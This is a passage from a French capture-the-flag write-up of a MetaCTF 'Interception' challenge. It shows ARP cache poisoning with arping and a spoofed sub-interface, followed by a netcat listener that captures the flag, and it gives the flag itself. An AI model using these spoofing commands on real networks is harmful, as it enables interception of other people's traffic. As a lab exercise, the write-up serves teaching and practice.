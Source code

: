 Arping ne nous permet pas d'utiliser une adresse IP d'expéditeur qui n'est pas définie dans une de nos interfaces réseau. Nous avons donc dû créer une sous-interface avec l'adresse IP du serveur :

```
/ # ifconfig eth0:1 192.168.0.2

/ # ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:0A:02:13:84
          inet addr:192.168.0.3  Bcast:0.0.0.0  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:13 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:978 (978.0 B)  TX bytes:42 (42.0 B)

eth0:1    Link encap:Ethernet  HWaddr 02:42:0A:02:13:84
          inet addr:192.168.0.2  Bcast:192.168.0.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1a
```

Dès lors, nous avons pu envoyer la réponse ARP en utilisant `arping` tout en configurant un listener sur le port UDP 8000 :

```
/ # arping -c 1 -U -s 192.168.0.2 192.168.0.1
ARPING 192.168.0.1 from 192.168.0.2 eth0
Sent 1 probe(s) (0 broadcast(s))
Received 0 response(s) (0 request(s), 0 broadcast(s))

/ # nc -ul 8000
MetaCTF{addr3s5_r3s0lut1on_pwn4g3}
```

Le flag est alors apparu dans notre sortie `nc`.

Par ailleurs, cela fonctionne également en spécifiant une autre adresse IP du même sous-réseau (`arping` met à jour les adresses IP de tous les voisins lorsque le paramètre `-U` est spécifié). 

```
/ # ifconfig eth0:1 192.168.0.2

/ # arping -c 1 -U -s 192.168.0.2 192.168.0.99
ARPING 192.168.0.99 from 192.168.0.2 eth0
Sent 1 probe(s) (0 broadcast(s))
Received 0 response(s) (0 request(s), 0 broadcast(s))

/ # nc -ul 8000
MetaCTF{addr3s5_r3s0lut1on_pwn4g3}
```

Flag : **MetaCTF{addr3s5_r3s0lut1on_pwn4g3}**

# Interception - Partie II

Dans ce challenge, l'objectif est de réaliser une attaque de type Man In The Middle (MiTM) sur un réseau local afin de capturer le trafic TCP sans connaitre les adresses IP des machines cibles.
